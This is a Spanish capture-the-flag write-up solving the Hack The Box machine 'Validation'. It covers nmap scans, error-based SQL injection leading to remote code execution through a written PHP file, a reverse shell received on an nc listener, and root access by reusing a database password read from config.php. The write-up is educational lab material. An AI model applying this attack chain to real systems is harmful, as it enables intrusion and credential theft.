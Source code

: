 ```yaml
---
title: HTB - Validation
published: true
categories: [Linux]
tags: [eJPT, eWPT, Fácil]
---
```



<img src="/assets/HTB/Validation/validation.png">


¡Hola!
Vamos a resolver de la máquina `Validation` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **SQLI (Error Based)**
- **SQLI to RCE**
- **Information Leakage**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Antique`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.11.116
PING 10.10.11.116 (10.10.11.116) 56(84) bytes of data.
64 bytes from 10.10.11.116: icmp_seq=1 ttl=63 time=38.3 ms

--- 10.10.11.116 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 38.334/38.334/38.334/0.000 ms
```
Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```java
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116 -oG allPorts

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p22,80,4566,8080 10.10.11.116 -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn t have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Reconocimiento Web

* * *

Accedemos al servicio Web y observamos una página de registro. Rellenamos los campos y nos agregan a una lista por países

<img src="/assets/HTB/Validation/web.png">
<img src="/assets/HTB/Validation/registro.png">

Procedemos a interceptar petición con BurpSuite. Inyectamos una `'` en el campo `country` y vemos un error en respuesta, ahora sabemos que tenemos SQLI Conditional Error

<img src="/assets/HTB/Validation/burp.png">

Probando varios payloads, vemos que con `union select` logramos listar elementos de la base de datos

<img src="/assets/HTB/Validation/database.png">
<img src="/assets/HTB/Validation/databaseresponse.png">

Sabemos que la base de datos se llama `registration`, procedemos a listar tablas de esta BD

<img src="/assets/HTB/Validation/tables.png">
<img src="/assets/HTB/Validation/tablesresponse.png">

Seguimos enumerando columnas de la tabla `registration` y base de datos `registration`

<img src="/assets/HTB/Validation/columns.png">
<img src="/assets/HTB/Validation/columnsresponse.png">

Listamos contenido de columnas `username` y `userhash`

<img src="/assets/HTB/Validation/user.png">
<img src="/assets/HTB/Validation/userresponse.png">

Los datos mostrados corresponden a usuarios y hashes que hemos creado nosotros haciendo pruebas de inyección por lo que no podemos sacar mucho de aquí. Seguimos a validar si tenemos la capacidad de depositar contenido en una ruta

<img src="/assets/HTB/Validation/into.png">
<img src="/assets/HTB/Validation/intoresponse.png">

Paso siguiente tratamos de depositar una instrucción en PHP para que podamos ejecutar comandos

<img src="/assets/HTB/Validation/php.png">
<img src="/assets/HTB/Validation/phpresponse.png">

En este punto con la capacidad de RCE ejecutamos onliner para entablar reverse shell. Nos ponemos en escucha en el puerto 443

<img src="/assets/HTB/Validation/shell.png">

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.11.116] 39462
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data
```

### Escalada Privilegios

* * *

Enumerando el contenido de la carpeta `/var/www/html/` vemos un archivo `config.php` y listando su contenido encontramos unas credenciales

```php
www-data@validation:/var/www/html$ ls
account.php  config.php  css  index.php  js
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
Probamos a ver si hay reutilización de credenciales y logramos acceder a root

```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html# whoami
root
```

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en sus respectivos directorios. Con el comando `cat` nos muestra el contenido.

```bash
#USER
root@validation:/# find / -name user.txt 2>/dev/null
/home/htb/user.txt
root@validation:/# cat /home/htb/user.txt
4e72ed159e5a30d65***************
```

```bash
#ROOT
root@validation:/# find / -name root.txt 2>/dev/null 
/root/root.txt
root@validation:/# cat /root/root.txt
9044af5fa347efab8***************
```

Hemos completado la máquina **Validation** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Validation/pwned.png">
